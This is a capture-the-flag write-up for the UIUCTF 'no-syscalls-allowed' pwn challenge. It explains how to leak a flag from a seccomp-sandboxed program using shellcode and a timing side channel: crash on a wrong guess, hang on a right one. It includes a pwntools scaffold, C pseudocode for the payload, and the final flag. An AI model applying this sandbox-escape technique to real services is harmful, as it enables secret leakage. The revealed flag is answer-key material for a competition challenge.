 # no-syscalls-allowed.c

Categories: Pwn

Description:
> no-syscalls-allowed.c
>
>- 205 points
>
>"no cell phones sign on a wall"
>
>
> No syscalls, no problem
>
> `nc no-syscalls-allowed.chal.uiuc.tf 1337`
>
>author: kuilin
>
> [no_syscalls_allowed.c](src/no_syscalls_allowed.c)

**Tags:** pwn, seccomp filter, timing side-channel, shellcode with pwntools, shellcode template

## Takeaways

- Shellcode created via pwntools `asm()`. You can use it as a template in the future.
  - Relative addressing in shellcode
  - Comments in shellcode
  - Data in shellcode
  - Parameterized shellcode
- Always be on the look out for side-channels
- Jumping to shellcode with active registers, can leak important information!

## Solution

In this challenge, we are given the source code which is pretty minimal:

```c
char flag[100];

void main(int argc, char *argv[]) {
  int fd = open("/flag.txt", O_RDONLY);
  read(fd, flag, sizeof flag);

  void *code = mmap(NULL, 0x1000, PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
  read(STDIN_FILENO, code, 0x1000);

  if (seccomp_load(seccomp_init(SCMP_ACT_KILL)) < 0) return;

  ((void (*)())code)();
}
```

As we can see, the program reads the flag from a file into the `flag` buffer, allocates a RWX page, stores `0x1000` bytes of shellcode that we provide into that page, disables all system calls, and finally invokes our shellcode.

```log
nikos@ctf-box:~/ctfs/uiuctf22/pwn/no-syscalls-allowed$ seccomp-tools dump ./no_syscalls_allowed
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x03 0xc000003e  if (A != ARCH_X86_64) goto 0005
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x00 0xffffffff  /* no-op */
 0005: 0x06 0x00 0x00 0x00000000  return KILL
```

So, indeed no system call is allowed. What payload can we craft that leaks the flag? We can use a timing side-channel!

We will brute-force the flag byte-by-byte. We will start with the character at index `0`. We will test all possible 256 ASCII characters. Let's assume that we make a guess `g`. If `flag[0] != g` then we will seg fault the program (fast path). If `flag[0] == g` then we will enter an infinite loop, indicating to our open connection that the flag character is correct:

```C
char *flagptr = &flag;

//string.ascii_letters + string.digits + string.punctuation
char *alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!#$&()*+,-./:;<=>?@[]^_`{|}~"; //careful for escapes

void exploit(int flagidx, int alphabetidx) {
  char flagch = *(flagptr + flagidx);
  char cptr=*(alphabet + alphabetidx);

if(flagch == cptr)
    while(1) { /* hang */ };
else
    *(NULL);  //crash - touch NULL pointer
}
```

One thing that we are missing here is the address of `flag` as we do not have the binary and it is also probably PIE. As the binary does not clear the registers before jumping to our shellcode, we can easily figure that out:

```python
from pwn import *
context.binary = elfexe = ELF('./no_syscalls_allowed')
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target
io = start()
shellcode  = b'\xCC' # int3
assert(len(shellcode) <= 0x1000)
padded_shellcode = shellcode + b'\x90'*(0x1000 - len(shellcode)) # pad with NOps
io.send(padded_shellcode)
```

This shellcode consists of just a single breakpoint. When we run the binary under gdb, we can examine its registers:

![r13.png](resources/r13.png)

And look at that! `r13` is a pointer to `main` and we can calculate the offset to the global variable `flag`. However, there is **caveat here**. We are not given the binary, we are only given the source code. This means that the remote binary will have a different offset.

We can expect that our binary will be similar to the one the server is running, but offsets will vary slightly. At least, the size of the program segments should be the same.

![vmm.png](resources/vmm.png)

So, as you can see, each segment of the `no_syscalls_allowed` that comes from the file (i.e. not `MAP_ANONYMOUS`), is exactly 1 page long. And we expect the `flag` to be in the `RW-` segment. So, we can clear out the last 3 nibbles of `r13` to get the base address of the code segment and then add `0x3000` to get the base address of the `RW-` segment.

Next, we have to find the offset of the flag in the `RW-` segment. At this point, we use the offset that our local binary has (`0x40`). Once we have a fully working exploit locally, we can brute force the offset of the `flag` since we know that it must start with `uiuctf{`.

For the full script that implements the above solution, see [solution.py](solution.py). Once we run the script, we are presented with the flag!

`uiuctf{timing-is-everything}`
